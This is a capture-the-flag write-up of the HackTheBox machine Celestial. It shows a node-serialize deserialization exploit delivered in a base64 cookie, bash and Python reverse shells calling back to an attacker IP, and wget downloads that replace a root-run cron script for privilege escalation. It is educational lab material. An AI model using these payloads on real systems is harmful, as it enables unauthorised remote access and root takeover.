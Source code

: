 # Celestial [HTB](https://app.hackthebox.com/machines/130)
![celestial-01](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Celestial/img/celestial-01.png)

## Recon

After adding an entry for our target in `/etc/hosts`, i start enumerating with `namp`:

```bash
nmap -sC -sV -A -p- celestial.htb -oN nmap.result
``` 

![nmap-res-02](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Celestial/img/nmap-res-02.png)

We have a single `Node.js` web server running on port 3000, lets take a look at it.


### Node.js Express Port 3000

Lets start by openning the site at `http://celestial.htb:3000`

![site-03](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Celestial/img/site-03.png)

Ok, not much to see here, lets open `Burp` and take a closer look at what's happenning in the background:

![burp-04](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Celestial/img/burp-04.png)

When we make an initial request, Altough the server replied with a `200` OK HTTP status, it prints
out a `404` text header. Along with that, the server gives us a cookie. If we then refresh the page, 
our client requests the same root directory, but this time adds the cookie and now we get the page:

![cookie-05](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Celestial/img/cookie-05.png)


So the cookie is being used here for something. 

When I initially researched `Node.js` cookies, I found [hacktricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/nodejs-express)'s page, that describes a tool to decrypt the cookies. But then i nocited that the cookie format is different from whats been given to us be the target. So this tool wont help us. 

Then i took a closer look at the cookie itself, at first i thought it was encrypted with a strong 
encryption algorithm, but still I decided to check it againts [hash-identifier](https://hashes.com/en/tools/hash_identifier):

![base64-06](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Celestial/img/base64-06.png)

If we take our cookie and [decode](https://www.base64decode.org/) it we see the following:

![decode-07](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Celestial/img/decode-07.png)

So the cookie is just a base64 encoded JSON data. The `username` and `num` keys are interesting. 
I think they are used to render the text on the main page. Lets set the `num` argument to `4` encode it and send it to the target:

![num-08](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Celestial/img/encode-08.png)

Now lets send that to the server as the cookie and see what happens:

```bash
curl -H 'Cookie: profile= eyJ1c2VybmFtZSI6IkR1bW15IiwiY291bnRyeSI6IklkayBQcm9iYWJseSBTb21ld2hlcmUgRHVtYiIsImNpdHkiOiJMYW1ldG93biIsIm51bSI6IjQifQo=' http://celestial.htb:3000
```

![response-09](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Celestial/img/response-09.png)

We can see the response has changed. We can conclude from this that the server is using data extracted
from the cookie to render the web page. And since we can easily control what goes in the cookie, we can 
possibly temper with the server's backend. 

Now the question is, how we can leverage this to get access to the system? 

So i started to play around with different payloads, like `"num": "id"`. Which lead me to an interesting error:

![eval-10](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Celestial/img/evaul-10.png)

The `eval()` function in JavaScript evaluates and executes java code, this is a potential attack vector. 
So i tried to to send a reverse shell with the different payloads. None worked for me, but the following one brought yet another interesting error:

```java
"num":"exec(\"/bin/bash -c 'exec 5<>/dev/tcp/10.10.14.61/443;cat <&5 | while read line; do $line 2>&5 >&5; done'\");"
```

![unserialize-11](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Celestial/img/unserialize-11.png)


While googeling this error, i came across an interesting [artical](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/). Apperantly, in some versions of the `node-sirialize` module, we can execute arbitrary code by declaring a serialized function passed inside a cookie and immediatly invoke it with a function expression. 

I've tried to find a working payload for quite some time, I tried a few different exploits from `ExploitDB`, but they did not work for me. So i decided to use [nodejsshell.py](https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py) script to generate a JavaScript reverse shell payload.

After downloading the script, i generated my payload with:

```bash
./nodejsshell.py 10.10.14.61 443
```

![gen-payload-12](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Celestial/img/gen-payload-12.png)

This results in a rather large output. I took the `<nums>` output and wrapped it inside a serliazed function, invoking it at the end with `()`:

```javascript
"_$$ND_FUNC$$_function (){eval(String.fromCharCode(<nums>))}()"
```

I took the payload and placed it as the value for the `num` property in the cookie and base64 encoded it:

![encode-13](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Celestial/img/encode-13.png)


I started my listener with:

```bash
rlwrap nc -lnvp 443
```

And i sent the payload to the target:

![send-14](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Celestial/img/send-14.png)

This gave me access to the system:

![shell-15](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Celestial/img/shell-15.png)


## Privilege Escalation

The first thing i did after landing the shell was to upgrade it with:

```bash
python -c 'import pty;pty.spawn("/bin/bash")'
```

![upgrade-shell-16](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Celestial/img/upgrade-shell-16.png)

Now it's a bit more intuitive. 

Then i tried to snatch quick wins by running `history`, `sudo -l`, as well as `find / -perm -4000 2>/dev/null` but with no luck. 

If we take a look at our user's group membership with `id` we can see that our user is a part of the `sudo` and `adm` groups, but in order to use `sudo` we need our user's password which i wasnt able to find. 

So instead i decided to have a look around the system, if we list out the contents of our home folder we will se somthing interesting:

![home-dir-17](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Celestial/img/home-folder-17.png)

We have a text file in our home folder owned by root, this is unusual. I'm thinking that a task is 
probably running in the background doing this. Lets get [pspy64](https://github.com/DominicBreuker/pspy)
on the target and take a look at the background processes. 

Use a python server to host the file with:

```bash
python3 -m http.server 80
```

Download the file from the target and execute it using:

```bash
wget http://10.10.14.61/pspy64
chmod +x pspy64 
./pspy64
```
![task-18](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Celestial/img/task-18.png)

Here it is. We have root (UID 0), spwaning `/bin/sh` to run a python script found in our user's `~/Documents` directory. The output from the script is saved to the `output.txt` file we saw earlier. 

In the task, we can see a few different commands being executed, but we only really care about the first one, if we can inject code into this script we can pop a reverse shell as root. Everything after the first command will be halted due to the reverse shell connection.

What i ended up doing, is creating a python reverse shell script in my Kali machine:

```python
import socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.61",9001));subprocess.call(["/bin/sh","-i"],stdin=s.fileno(),stdout=s.fileno(),stderr=s.fileno())
```

Then, i deleted the orignal `script.py` on the the target and downloaded my version with:

```bash
rm script.py 
wget http://10.10.14.61/script.py
```

Then i started my listener with:

```bash
rlwrap nc -lnvp 9001
```

And waited for the connection:

![root-19](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Celestial/img/root-19.png)


